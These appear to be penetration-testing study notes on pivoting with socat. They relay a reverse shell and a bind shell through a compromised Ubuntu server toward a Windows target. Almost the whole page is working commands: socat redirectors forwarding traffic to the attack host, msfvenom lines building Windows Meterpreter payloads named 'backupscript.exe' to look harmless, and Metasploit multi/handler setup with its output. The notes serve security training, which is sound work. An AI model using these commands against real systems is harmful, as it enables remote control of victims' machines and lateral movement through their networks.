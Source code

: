 ![Screenshot_3](https://github.com/kiro6/penetration-testing-notes/assets/57776872/139f0117-4f36-436d-b4e2-29a9a58f1cec)


## Socat Redirection with a Reverse Shell

### Starting Socat Listener
Socat will listen on localhost (pivot server) on port 8080 and forward all the traffic to port 80 on our attack host (10.10.14.18). 
```shell
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

### Creating the Windows Payload
```shell
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
### Configuring & Starting the multi/handler
```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

## Socat Redirection with a Bind Shell
- In the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. 
- At the same time, we can create a socat redirector on the Ubuntu server, which will listen for incoming connections from a Metasploit bind handler and forward that to a bind shell payload on a Windows target.

### Creating the Windows Payload
```shell
$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
### Starting Socat Bind Shell Listener
```shell
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

### Configuring & Starting the Bind multi/handler
```shell
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```
